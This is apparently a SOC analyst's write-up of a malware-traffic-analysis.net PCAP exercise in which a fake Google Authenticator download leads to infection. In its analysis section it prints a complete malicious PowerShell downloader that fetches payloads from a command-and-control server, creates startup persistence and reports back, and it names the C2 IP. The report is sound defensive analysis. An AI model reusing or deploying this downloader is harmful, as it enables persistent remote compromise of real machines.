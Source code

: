 ```yaml
---
title: Malware Traffic Analysis Report
date: 2025-01-27 18:00:00 +0800
categories: [Malware Analysis]
tags: [Malware, Traffic Analysis, Cybersecurity, SOC]
image:
  path: /images/mal/malware.jpg
---
```


## Malware Traffic Analysis Report

**Analyzed By:** Ali Msahli (AL1_D0CS)  
**Date:** 01/27/2025  
**Source:** [Malware-traffic-analysis.net](https://malware-traffic-analysis.net)  

---

### Background

You work as an analyst at a Security Operation Center (SOC). A coworker reported downloading a suspicious file after searching for "Google Authenticator." The caller provided the following information, similar to social media posts:

- [Unit42 on LinkedIn](https://www.linkedin.com/posts/unit42_2025-01-22-wednesday-a-malicious-ad-led-activity-7288213662329192450-ky3V/)
- [Unit42 on X (formerly Twitter)](https://x.com/Unit42_Intel/status/1882448037030584611)

Based on the initial information, you confirmed an infection and retrieved a packet capture (PCAP) for analysis. Reviewing the traffic, you found indicators matching details from a GitHub page referenced in the social media posts.

---

### LAN Segment Details (from PCAP)

| Detail                     | Value                                     |
|----------------------------|-------------------------------------------|
| **LAN Range**              | `10.1.17[.]0/24`                         |
| **Domain**                 | `bluemoontuesday[.]com`                  |
| **AD Domain Controller**   | `10.1.17[.]2 - WIN-GSH54QLW48D`          |
| **AD Environment Name**    | `BLUEMOONTUESDAY`                        |
| **LAN Gateway**            | `10.1.17[.]1`                            |
| **LAN Broadcast Address**  | `10.1.17[.]255`                          |

---

### My Setup

For this investigation, I used the following tools:
- **Security Onion VM** with tools like Sguil, Wireshark, Kibana, and NetworkMiner.
- Additional tools: **VirusTotal** and **CyberChef**.

---

### Analysis



#### Alerts and Connections
<img src="/images/mal/mal1.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

Using **NetworkMiner**, I identified connections between the victim and the Command-and-Control (C2) server:

<img src="/images/mal/mal2.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

- **Victim IP:** `10.1.17.215`
- **Victim MAC:** `00:d0:b7:26:4a:74`
- **C2 Server IP:** `5.252.153.241`

#### Object Analysis in Wireshark

<img src="/images/mal/mal3.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

By examining HTTP requests, I found a suspicious file containing the following PowerShell script:

```powershell
function Download-Files($panelIP, $files, $filesDir){ $web = New-Object System.Net.WebClient try { if(!(Test-Path $filesDir)) { New-Item $filesDir -ItemType Directory | Out-Null } } catch { return @{'status' = 'error'; 'message' = 'error while creating startup directory'} } foreach($file in $files) { try { $link = $file.link $fileName = $file.name $filePath = "$filesDir\$($file.name)" $web.DownloadFile($link, $filePath) if($fileName -eq $startupFile){ $exePath = $startupFile } } catch { return @{'status' = 'error'; 'message' = "Error while download file. Filename: $($file.name). Link: $($link). Error: $($Error[0].exception.message)"} } } return @{'status' = 'success'} } function Create-Shortcut($filePath, $shortCutpath){ $WshShell = New-Object -comObject WScript.Shell $Shortcut = $WshShell.CreateShortcut($shortCutpath) $Shortcut.TargetPath = $filePath $Shortcut.Save() } function Invoke-Startup($panelIP, $files, $filesDir, $startupFileName){ $result = Download-Files $panelIP $files $filesDir if ($result.status -eq 'error'){ return $result } #$startupFilePath = "$filesDir\$startupFileName" $startupFilePath = "C:\ProgramData\huo\TeamViewer.exe" $shortcutPath = "$([Environment]::GetFolderPath('Startup'))\TeamViewer.lnk" try { Create-Shortcut $startupFilePath $shortcutPath } catch { return @{'status' = 'error'; 'message' = "Error while creating shortcut."} } return @{'status' = 'success'; 'message' = 'startup shortcut created'} } function Send-Log($result){ $log = "?k=$result" $uploadUrl = $url + $log $web = New-Object System.Net.WebClient $web.DownloadString($uploadUrl) } function ConvertTo-StringData($hashTable){ foreach ($item in $hashTable) { foreach ($entry in $item.GetEnumerator()) { "{0} = {1}; " -f $entry.Key, $entry.Value } } } $filesDownloadLink = $ip + 'api/file/get-file/' $filesDir = 'C:\ProgramData\huo' $files = @( @{'name' = 'TeamViewer.exe'; 'link' = $filesDownloadLink + 'TeamViewer'}, @{'name' = 'Teamviewer_Resource_fr.dll'; 'link' = $filesDownloadLink + 'Teamviewer_Resource_fr'}, @{'name' = 'TV.dll'; 'link' = $filesDownloadLink + 'TV'} @{'name' = 'pas.ps1'; 'link' = $filesDownloadLink + 'pas.ps1'} ) $startupFile = 'TeamViewer.exe' $result = Invoke-Startup $panelIP $files $filesDir $startupFile $result = ConvertTo-StringData($result) Send-Log($result)
```
This script ensures that the downloaded executable (TeamViewer.exe) runs every
time the system starts by creating a shortcut in the startup folder, in addition it
downloads additional files (TV, pas.ps1) that may perform further malicious actions.
And finally, it sends the execution result to a remote server.

<img src="/images/mal/mal4.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

Checking each file hash on VirusTotal it seems that only TV might be malicious.

<img src="/images/mal/mal5.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

The file pas.ps1 contains this random looking code :

<img src="/images/mal/code.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />


I have used Cyberchef to clean this using find & replace 

<img src="/images/mal/mal6.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

Now i need to transform this string from base64 

<img src="/images/mal/mal7.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

The output is a string in base64, the final output looks like this:

<img src="/images/mal/code1.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

This PowerShell script is designed to continually connect to a remote server and execute commands or malicious payloads retrieved from that server.
How ?
This script create a COM object used to interact with the file system then Retrieve the serial number of C:\ --> convert it to hexadecimal string --> convert it back into integer 64-bits --> store it in a variable $serial --> append the serial number to the remote server ip address $url = $ip + $serial 

This will keep running in the infinite while loop until it downloads and execute the $result 
The continuous retry mechanism ensures that the attack persists even if the server is temporarily unreachable.

### Conclusion

The investigation of the malware traffic revealed a coordinated attack using
obfuscated PowerShell scripts. The initial infection was caused by a suspicious file
downloaded by the victim. The malware operates in two main stages

#### First Stage (Downloader)

A PowerShell script was used to download and execute additional payloads
(pas.ps1) from a remote Command-and-Control (C2) server.

This script establishes persistence by creating a shortcut in the startup folder,
ensuring the execution of malicious files like TeamViewer.exe on system
startup.

#### Second Stage (C2 Communication)

The secondary script (pas.ps1) contains obfuscated, Base64-encoded
commands that execute a persistent infinite loop to communicate with the
attacker’s C2 server.

It retrieves commands from the server and executes them on the infected
machine. The C: drive’s serial number is used as a unique identifier for the
victim, allowing the attacker to track individual targets

#### Impact

Persistence: The malware ensures it restarts with the system.

Remote Execution: The attacker can remotely deploy additional payloads,
execute commands, or exfiltrate data.

Obfuscation: The use of encoding and obfuscation techniques complicates
detection by traditional security tools.